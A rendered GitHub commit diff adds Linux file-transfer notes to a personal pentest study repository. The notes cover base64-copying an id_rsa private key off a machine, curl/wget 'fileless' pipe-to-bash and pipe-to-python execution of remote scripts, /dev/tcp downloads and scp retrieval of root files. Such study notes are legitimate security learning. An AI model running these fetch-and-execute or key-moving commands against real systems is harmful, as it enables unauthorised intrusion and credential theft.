

Before and after one commit to ziadhamdy88/THM, a Markdown page: Notes/File Transfer.md, the part around the change. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Linux file download notes added!

```diff
--- a/Notes/File Transfer.md
+++ b/Notes/File Transfer.md
@@ -86,3 +86,32 @@
 			- `echo PUT C:\Windows\System32\drivers\etc\hosts >> ftpcommand.txt`
 			- `echo bye >> ftpcommand.txt`
 			- `ftp -v -n -s:ftpcommand.txt`
+# *Linux*
+- ### *Download*
+	- ##### *Base64 Encoding & Decoding*
+		- Method that doesn't require network communication, encode the file from the terminal to a Base64 string, copy its content into the terminal and perform the reverse operation.
+		- Get hash of file for comparison later using `md5sum id_rsa`.
+		- Encode the file using `cat id_rsa | base64 -w 0;echo`, copy the content and paste it into the attack machine.
+		- Decode the string using `echo -n "<base64> | base64 -d > id_rsa`.
+		- Hash the output again and compare the output with the previous file.
+	- ##### *Web Downloads with Wget and cURL*
+		- Download a file using `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`.
+		- Download a file using `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -o /tmp/LinEnum.sh`.
+	- ##### *Fileless Attacks*
+		- `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`
+		- `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`
+	- ##### *Download with bash (/dev/tcp)*
+		- Used in situations where other well-known file transfer tools aren't available.
+		- As long as bash version 2.04 or greater is present (compiled with --enable-net-redirections).
+		- **Steps**
+			- Connect to the target web server using `exec 3<>/dev/tcp/<ip>/80`.
+			- GET request using `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`.
+			- Print the response using `cat <&3`.
+	- ##### *SSH Downloads*
+		- **Configuring SSH Server**
+			- `sudo systemctl enable ssh`
+			- `sudo systemctl start ssh`
+			- Get SSH listening port using `netstat -lnpt`
+		- Download file using `scp plaintext@<server-ip>:/root/myroot.txt .`
+		- **NOTE: Create a temporary user account for file transfers and avoid using primary credentials or keys on a remote computer**
+-
```
